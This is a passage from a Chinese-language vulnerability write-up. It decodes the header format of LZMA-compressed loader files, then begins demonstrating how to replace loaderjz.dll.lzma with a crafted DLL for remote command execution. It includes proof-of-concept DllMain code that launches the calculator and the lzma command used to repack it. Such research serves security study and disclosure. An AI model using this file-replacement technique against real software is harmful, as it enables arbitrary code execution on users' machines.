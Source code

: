 ```bash
$ binwalk curl.exe.lzma

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
42            0x2A            LZMA compressed data, properties: 0x5D, dictionary size: 16777216 bytes, uncompressed size: 506048 bytes
```

观察每个文件，发现它们都有一个不定长的头部信息，然后是`LZMA:24`算法压缩的数据包，Google之后猜测是使用这里的工具开发的：http://www.7-zip.org/sdk.html

接下来分析一下头部信息都是些什么东西。注：这里用的是小端规则。
![](http://ww4.sinaimg.cn/large/7184df6bgw1f4xie83ou5j20hp030jt7.jpg)

* 00 - 03 字节：29 00 00 00 = 0x29 = 41，正好是上面binwalk分析出来的头部长度。
* 04 - 07 字节：B3 C7 03 00 = 0x03C7B3 = 247731，是loader_catalog.txt文件中 247772 - 41 得到的，而247772是curl.exe.lzma文件的大小。最终，通过`binwalk -e`解压开文件，发现就是加了头部信息之前的文件的大小 + 1
* 08 - 11 字节：C0 B8 07 00 = 0x07B8C0 = 506048，应该就是解压后文件的大小
* 12 - 13 字节：09 00 = 9，刚好就是字符串`curl.exe`的长度，注意结尾的`\0`
* 14 - 15 字节：11 00，暂时没猜到
* 16 - 31 字节：00000000000000000000000000000000
* 32 - 40 字节：6375726C2E65786500 = `curl.exe`

## 0x03 劫持loaderjz.dll.lzma这个文件实现远程命令执行

首先，自己实现一个dll文件，在其`DllMain`入口函数的时候中启动一下计算器就好，代码如下：

```cpp
BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved
)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		WinExec("calc", 0);
		break;
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

编译成Release版本，改名，使用 http://www.7-zip.org/sdk.html 这里下载得到的lzma.exe压缩一下文件
```bash
E:\lzma\bin>lzma.exe e loaderjz.dll loaderjz.dll.lzma -d24

LZMA 16.02 : Igor Pavlov : Public domain : 2016-05-21

Input size:  12288 (0 MiB)
Output size: 5748 (0 MiB)
```
